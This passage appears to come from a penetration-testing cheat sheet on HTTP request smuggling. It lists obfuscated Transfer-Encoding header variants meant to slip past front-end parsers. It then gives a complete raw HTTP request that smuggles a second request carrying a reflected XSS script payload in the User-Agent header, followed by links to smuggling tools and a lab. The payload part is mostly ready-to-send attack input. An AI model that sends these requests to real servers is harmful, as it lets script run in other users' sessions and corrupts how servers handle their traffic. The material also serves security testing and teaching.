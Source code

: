 ```
X: X[\n]Transfer-Encoding: chunked
```

```
Transfer-Encoding
: chunked
```

```
Transfer-Encoding : \x00chunked
```

```
Transfer-Encoding: chùnked
```

```
Foo: bar\r\n\rTransfer-Encoding: chunked
```

### XSS using HTTP request smuggling

The obvious prerequisite is webpage should be vulnerable to Reflected XSS. Then you can use HTTP request smuggling to perform and increase the impact of the attack.\
When you have XSS on "User-Agent" header you can use something like below,

```
POST / HTTP/1.1
Host: unstable.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Cookie: xyz=asd
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 213
Connection: keep-alive

0

GET /xss HTTP/1.1
Host: unstable.com
User-Agent: '"><script>alert("xss")</script>
Content-Length: 10
Content-Type: application/x-www-form-urlencoded

asdasd
```

### Tools

{% embed url="https://github.com/defparam/smuggler" %}

{% embed url="https://github.com/ZeddYu/HTTP-Smuggling-Lab" %}

{% embed url="https://github.com/gwen001/pentest-tools" %}
